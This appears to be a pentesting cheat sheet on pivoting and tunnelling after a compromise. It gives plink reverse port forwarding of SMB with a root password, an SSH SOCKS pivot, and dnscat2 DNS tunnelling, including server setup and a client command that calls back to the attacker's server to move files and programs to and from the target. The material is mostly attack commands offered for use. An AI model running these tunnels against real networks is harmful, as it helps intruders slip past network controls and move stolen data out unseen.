 

  ##  Port Forwarding/Redirection

**    PuTTY Link tunnel - SSH Tunneling
**        Forward remote port to local address:


```
        plink.exe -P 22 -l root -pw "1337" -R 445:$ip:445 $ip

```


**    SSH Pivoting
**        SSH pivoting from one network to another:


```
        ssh -D $ip:1010 -p 22 user@$ip

```


**    DNS Tunneling
**
        dnscat2 supports “download” and “upload” commands for getting files (data and programs) to and from the target machine.

 

```
       Attacking Machine Installation:
        apt-get update
        apt-get -y install ruby-dev git make g++
        gem install bundler
        git clone https://github.com/iagox86/dnscat2.git
        cd dnscat2/server
        bundle install

        Run dnscat2:
        ruby ./dnscat2.rb
        dnscat2> New session established: 1422
        dnscat2> session -i 1422

        Target Machine:
        https://downloads.skullsecurity.org/dnscat2/ https://github.com/lukebaggett/dnscat2-powershell/
        dnscat --host <dnscat server_ip>
```






## Plink.exe Tunnel

### PuTTY Link tunnel

**Forward remote port to local address:
**


```
	plink.exe -P 22 -l root -pw "1337" -R 445:127.0.0.1:445 REMOTE-IP

```



